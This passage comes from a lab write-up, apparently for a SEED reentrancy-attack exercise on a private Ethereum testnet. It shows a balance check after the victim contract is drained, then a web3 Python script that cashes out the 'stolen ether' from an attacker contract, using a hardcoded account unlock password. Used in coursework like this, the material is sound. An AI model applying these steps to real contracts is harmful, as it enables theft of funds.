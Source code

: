 
### Step 3.3 – Check Contract Balance After Attack

Checking balances after the attack showed that the victim contract was drained as expected:

```bash
python3 get_balance.py
```

![Balance After Attack](./images/lab6/9.png)

---

### Step 3.4 – Cash Out the Stolen Ether

Finally, we ran the cash out script to transfer the stolen ether from the attacker contract to our own account.

```python
#!/bin/env python3
  
from web3 import Web3
import SEEDWeb3
import os

web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")

abi_file      = "../contract/ReentrancyAttacker.abi"
attacker_addr = '0xE4f431062358923783bc63Ba7bC0BF232AFd9f99'

# Cash out the money from the attacker contract
contract_abi   = SEEDWeb3.getFileContent(abi_file)
recipient_acct = Web3.toChecksumAddress(web3.eth.accounts[2])
contract = web3.eth.contract(address=attacker_addr, abi=contract_abi)
tx_hash  = contract.functions.cashOut(recipient_acct).transact({ 
                    'from':  sender_account
                })
print("Transaction sent, waiting for block ...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print("Transaction Receipt: {}".format(tx_receipt))
```

```bash
python3 cashout.py
```

---